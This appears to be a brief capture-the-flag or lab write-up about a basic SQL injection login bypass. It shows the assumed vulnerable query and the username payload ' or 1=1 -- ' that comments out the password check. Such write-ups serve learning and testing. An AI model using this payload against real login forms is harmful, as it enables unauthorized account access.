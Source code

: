 ![front page](./sqli-101-1.png)

We assume it is a standard query on the form:
```SQL
SELECT * FROM users WHERE username='$username' AND password='$password';
```
Where `$username` and `$password` is the provided input from the login form.

We can simply bypass this with username: `' or 1=1 -- ` and password blank/anything. This will create the following form:

```SQL
SELECT * FROM users WHERE username='' or 1=1 -- ' AND password='';
```
